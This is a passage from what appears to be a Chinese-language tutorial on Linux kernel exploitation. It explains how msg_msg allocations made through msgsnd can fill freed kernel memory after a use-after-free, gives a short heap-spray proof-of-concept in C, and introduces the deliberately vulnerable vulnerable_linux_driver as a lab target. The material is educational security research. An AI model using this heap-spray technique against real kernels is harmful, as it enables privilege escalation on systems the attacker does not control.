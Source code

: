 ```
    struct msg_msgseg **pseg;
    size_t alen;

    alen = min(len, DATALEN_MSG);
    // 实际分配的大小将是 msg_msg 结构大小加上我们用户传入的大小
    msg = kmalloc(sizeof(*msg) + alen, GFP_KERNEL);
    ......
`}`
```

`do_msgsnd()`根据用户传递的`buffer`和`size`参数调用`load_msg(mtext, msgsz)`，`load_msg()`先调用`alloc_msg(msgsz)`创建一个`msg_msg`结构体，然后拷贝用户空间的`buffer`紧跟`msg_msg`结构体的后面，相当于给`buffer`添加了一个头部，因为`msg_msg`结构体大小等于`0x30`，因此用户态的`buffer`大小等于`xx-0x30`。也就是说**我们输入的前`0x30`字节不可控，也就是说我们的滑板代码中可能会被插入阻塞代码**。

#### <a class="reference-link" name="POC"></a>POC

```
struct `{`
    long mtype;
    char mtext[BUFF_SIZE];
`}`msg;

// 布置用户空间的内容
memset(msg.mtext, 0x42, BUFF_SIZE-1); 
msg.mtext[BUFF_SIZE] = 0;
int msqid = msgget(IPC_PRIVATE, 0644 | IPC_CREAT);
msg.mtype = 1; //必须 &gt; 0

// 假设此时已经产生释放对象，但指针未清空
for(int i = 0; i &lt; 120; i++)
    msgsnd(msqid, &amp;msg, sizeof(msg.mtext), 0);
// 触发UAF即可
```

### <a class="reference-link" name="%E4%BB%A5vulnerable_linux_driver%E4%B8%BA%E4%BE%8B"></a>以vulnerable_linux_driver为例

#### <a class="reference-link" name="%E5%85%B3%E4%BA%8Evulnerable_linux_driver"></a>关于vulnerable_linux_driver

`vulnerable_linux_driver`是一个易受攻击的Linux驱动程序，一般用于内核利用中的研究目的。

它是基于hacksys团队的出色工作完成的，该团队做了脆弱的[Windows驱动程序](https://github.com/hacksysteam/HackSysExtremeVulnerableDriver)。

这不是CTF风格的挑战，漏洞非常明显，主要目的是方便开发人员理解内核利用。

项目地址：[https://github.com/invictus-0x90/vulnerable_linux_driver](https://github.com/invictus-0x90/vulnerable_linux_driver)

#### <a class="reference-link" name="%E6%9E%84%E5%BB%BAvulnerable_linux_driver"></a>构建vulnerable_linux_driver

首先需要编译官方推荐使用的`4.6.0-rc1`版本内核，编译完成后，使用项目给出的`MAKEFILE`将其编译成为内核模块。
